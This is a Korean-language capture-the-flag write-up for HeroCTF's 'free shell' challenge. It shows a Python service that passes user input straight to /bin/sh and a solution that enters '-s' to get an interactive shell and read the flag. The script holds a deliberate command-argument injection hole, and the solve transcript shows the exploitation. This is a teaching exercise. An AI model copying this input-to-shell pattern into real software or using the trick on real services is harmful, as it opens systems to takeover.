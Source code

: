 # Description
원격 서버의 쉘을 얻어 내야 한다. 
로컬에서 솔루션을 얻은 후
nc misc.heroctf.fr 7000에서 테스트할 수 있다. 

flag 형식 : Hero{flag}
Author : xanhacks
# files
```
#!/usr/bin/env python3
import os
import subprocess


print("Welcome to the free shell service!")
print("Your goal is to obtain a shell.")

command = [
    "/bin/sh",
    input("Choose param: "),
    os.urandom(32).hex(),
    os.urandom(32).hex(),
    os.urandom(32).hex()
]
subprocess.run(command)
```
# 문제 분석
문제에 주어진 파이썬 파일을 보면 subprocess.run을 통해 command에 들어있는 내용들을 시스템에서 실행하는 걸 알 수 있다. command에서 input 값을 얻어내기 때문에 이를 통해 문제 해결하는 방법을 찾아야 한다. os.urandom(32).hex()를 실행하고 끝내기 전에 input 라인에서 쉘을 얻어야 하는 것.

# 문제 풀이
```
Welcome to the free shell service!
Your goal is to obtain a shell.
Choose param: -s
ls
entrypoint.sh
flag_5MZlXDu0VEMNaXTQsiDqzpaPm5r5xm1d.txt
free_shell.py
cat flag_*
Hero{533m5_11k3_y0u_f0und_7h3_c0223c7_p424m3732}
```
# 알아야 하는 것
> linux command를 standard input으로 받아오도록 하는 command flag = **-s**
> https://man7.org/linux/man-pages/man1/sh.1p.html